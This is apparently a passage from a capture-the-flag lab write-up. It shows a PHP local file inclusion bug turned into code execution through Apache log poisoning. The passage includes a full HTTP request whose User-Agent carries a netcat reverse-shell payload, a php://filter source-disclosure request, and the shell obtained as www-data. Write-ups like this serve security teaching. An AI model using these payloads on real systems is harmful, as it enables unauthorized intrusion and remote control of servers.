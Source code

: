 In the code, I could see that it read the users from the database. The username is escaped with `mysqli_real_escape_string` so it was not vulnerable to SQLi. 

The code was also doing an `include` of any file from the `page` parameter. So I tried to load the Apache access log to see if the page was vulnerable to [log poisoning](https://owasp.org/www-community/attacks/Log_Injection). 

I loaded [http://target.thm/detail.php?page=/var/log/apache2/access.log](http://target.thm/detail.php?page=/var/log/apache2/access.log) and the Apache logs were returned with the page. 

```
...
10.13.3.36 - - [26/Jul/2021:15:38:42 +0530] "GET /style.css HTTP/1.1" 404 452 "http://target.thm/detail.php" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.13.3.36 - - [26/Jul/2021:15:38:45 +0530] "GET /logout.php HTTP/1.1" 200 331 "http://target.thm/detail.php" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.13.3.36 - - [26/Jul/2021:15:38:46 +0530] "GET /index.php HTTP/1.1" 200 1113 "http://target.thm/logout.php" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.13.3.36 - - [26/Jul/2021:15:38:52 +0530] "POST /index.php HTTP/1.1" 200 1154 "http://target.thm/index.php" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.13.3.36 - - [26/Jul/2021:15:38:52 +0530] "GET /dashboard.php HTTP/1.1" 200 834 "http://target.thm/index.php" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.13.3.36 - - [26/Jul/2021:15:38:53 +0530] "GET /style.css HTTP/1.1" 404 452 "http://target.thm/dashboard.php" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.13.3.36 - - [26/Jul/2021:15:42:22 +0530] "GET /detail.php?page=php://filter/convert.base64-encode/resource=detail.php HTTP/1.1" 200 2837 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.13.3.36 - - [26/Jul/2021:15:42:22 +0530] "GET /style.css HTTP/1.1" 404 452 "http://target.thm/detail.php?page=php://filter/convert.base64-encode/resource=detail.php" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```

With that, I could change my request user agent to some PHP code and it would get executed on the second request. The first one to write it in the log file, and the second to execute it when the file would be included. 

I started a netcat listener and then used Burp Repeater to modify the user agent and send the request twice. 

```http
GET /detail.php?page=/var/log/apache2/access.log HTTP/1.1
Host: target.thm
User-Agent: <?php `mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg`; ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=enaad3ebffto4lbui8og7pvlkb
Upgrade-Insecure-Requests: 1
```

On the second request, I had my reverse shell. 

```bash
$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.95.156 57098
whoami
www-data
```
